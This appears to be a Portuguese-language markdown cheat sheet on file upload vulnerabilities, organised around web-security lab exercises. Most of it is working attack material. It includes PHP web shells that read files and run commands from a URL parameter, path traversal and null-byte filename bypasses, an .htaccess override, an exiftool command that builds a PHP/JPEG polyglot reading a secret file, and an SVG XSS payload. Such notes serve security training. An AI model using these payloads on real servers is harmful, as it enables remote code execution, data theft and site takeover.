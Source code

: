 # Vulnerabilidades de Upload de Arquivo

Probabilidade: $${\color{yellow}média}$$.

<br>

Normalmente surge no upload de avatar em `/my-account`.

Arquivo malicioso para ler conteúdo:
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Arquivo malicioso com WebShell:
```
<?php echo system($_GET['command']); ?>

GET /example/exploit.php?command=id HTTP/1.1
```

<br>

## Laboratórios

**Web Shell Upload via Content-Type Restriction Bypass**

Upload malicious file and change Content-Type to `image/jpeg`.

<br>
<br

**Web Shell Upload via Path Traversal**

Explore Path Traversal para subir um arquivo para o diretório anterior:
```
filename="..%2fexploit.php"
```

E o acesse em: `GET /files/exploit.php?command=ls`.

<br>
<br>

**Web Shell Upload via Extension Blacklist Bypass**

A extensão `.php` está bloqueada, mas ainda é possível utilizar a extensão `.phar`.

Essa laboratório também ensina como você pode sobescrever o arquivo .htaccess com:
```
AddType application/x-httpd-php .l33t
```

Dessa maneira, ao subir uma extensão .l33t, o servidor interpretá como PHP.

<br>
<br>

**Web Shell Upload via Obfuscated File Extension**

Utilize um null byte para o bypass:
```
rce.php%00.jpg
```

Outros bypasses:
```
exploit.pHp
exploit.php.jpg
exploit.jpg.php
exploit.php.
exploit%2Ephp
exploit.p.phphp

exploit.asp;.jpg
exploit.asp%00.jpg
```

<br>
<br>

**Remote Code Execution via Polyglot Web Shell Upload**

Faça upload de um arquivo poliglota PHP/JPG que é uma imagem com código PHP em seus metadados.
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" image.jpeg -o polyglot.php
```

<br>

### Outros

**XSS SVG Upload**
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(255,0,0);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS!");
   </script>
</svg>
```
